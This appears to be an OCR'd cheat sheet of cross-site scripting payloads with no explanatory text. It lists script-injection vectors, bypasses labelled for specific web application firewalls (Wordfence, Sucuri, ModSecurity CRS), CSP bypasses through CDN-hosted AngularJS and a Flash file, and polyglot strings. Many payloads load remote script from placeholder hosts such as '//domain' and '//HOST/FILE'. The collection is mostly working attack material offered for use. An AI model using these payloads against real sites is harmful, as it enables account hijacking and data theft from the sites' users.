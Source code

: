 <marquee onstart=alert(1)>

window[document.body.innerText.charAt(document.body.innerText.indexOf('a'))+'lert'](1)
<+!-<script/src+=+\\//\\http://14.rs \\//\\+></script/src>->
<script>eval('al'+'ert(1)');</script>  
<script>'alert(1)'.replace(/.+/,eval)</script>
<img onerror=eval('al\u0065rt(1)') src=a>
<script>function::['alert'](1)</script>

Wordfence 7.4.2
<a href=&#01javascript:alert(1)>

Sucuri CloudProxy (POST only)
<a href=javascript&colon;confirm(1)>

ModSecurity CRS 3.2.0 PL1
<a href="jav%0Dascript&colon;alert(1)">

"><embed src='//ajax.googleapis.com/ajax/libs/yui/2.8.0r4/build/charts/assets/charts.swf?allowedDomain="})))}catch (e) { d = document; d.location.hash.match(`x1`) ? `` : d.location=`//localhost/mH`}//' allowscriptaccess=always>

"><object data='//ajax.googleapis.com/ajax/libs/yui/2.8.0r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch (e) { d = document; d.location.hash.match(`x1`) ? `` : d.location=`//localhost/mH`}//' allowscriptaccess=always>

"><base href="//domain">
<script nonce='secret' src='./scripts/foo.js'></script>

"><script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.6.1/angular.js"></script>
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.6.1/angular.min.js"></script>
<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>

<script>$.getScript("//domain")</script>
"><script src="//domain/xss.js"></script>
"><img src=x id=payload&#61;&#61; onerror=eval(atob(this.id))>
javascript:eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)');
"><input onfocus=eval(atob(this.id)) id=payload&#61;&#61; autofocus>
"><a href="javascript:eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')">Click Me For An Awesome Time</a>
"><input onfocus="eval('d=document; _ = d.createElement(\'script\');_.src=\'\/\/domain/m\';d.body.appendChild(_)')" autofocus>
"><iframe onload="eval('d=document; _=d.createElement(\'script\');_.src=\'\/\/domain/m\';d.body.appendChild(_)')"> 
"><svg onload="javascript:eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')" xmlns="http://www.w3.org/2000/svg"></svg>
"><video><source onerror="eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')">
"><body onpageshow="eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')">
"><script src=//analytics.twitter.com/tpm?tpm_cb=alert(document.domain)>//
<script>alert(1)//
<script>alert(1)
<script src=data:,alert(1)>
<script src=//HOST/FILE>
<script src=https:DOMAIN/FILE>
<svg><script xlink:href=//HOST/FILE>
<svg><script xlink:href=https:DOMAIN/FILE>
javascript:/*--></title></style></textarea></script></xmp><details/open/ontoggle='+/`/+/"/
+/onmouseover=1/+/[*/[]/+alert(/
@PortSwiggerRes
/)//'>
